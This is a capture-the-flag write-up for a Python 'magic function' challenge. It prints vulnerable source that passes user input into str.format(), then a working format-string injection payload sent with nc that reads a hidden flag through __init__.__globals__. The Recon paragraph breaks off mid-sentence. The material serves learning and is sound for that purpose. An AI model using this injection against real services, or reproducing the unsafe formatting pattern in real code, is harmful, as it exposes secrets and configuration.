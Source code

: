 # NISRA 2023 Enlightened - Magic Function
## Background
[Magic Function of Python](https://hacktricks.boitatech.com.br/misc/basic-python/magic-methods)

## Source Code
```python=
class Test():
	def __init__(self, email='test@nisra.net'):
		self.info = 'test'
		self.email = email

class Secret():
	flag = open("./NISRA-Enlightened-2023/flag.txt", "r").read().strip()


if __name__ == '__main__':
	email = input('Your email: ')

	if email:
		test = Test(email)
	else:
		test = Test()

	msg = ('this is for {test.info}, please contact ' + email + '.').format(test=test)

	print(msg)
```


## Recon
這一題真的很有趣，但也是算通靈的奇淫怪招，仔細看了一下直覺應該是跟format string有關係，比賽的時候的確有想到，但我當時想的payload有點偏掉了，當時的payload是: `{test.email}.format(test=Test(Secret().flag))`，也就是先傳入Secret().flag給Test這個class，然後再利用format傳入給

## Exploit
```bash
$ echo "{test.__init__.__globals__[Secret].flag}" | nc chall2.nisra.net 43001
Your email: this is for test, please contact NISRA{Ma9ic_pY3h0n_!!???}.
```

Flag: `NISRA{Ma9ic_pY3h0n_!!???}`
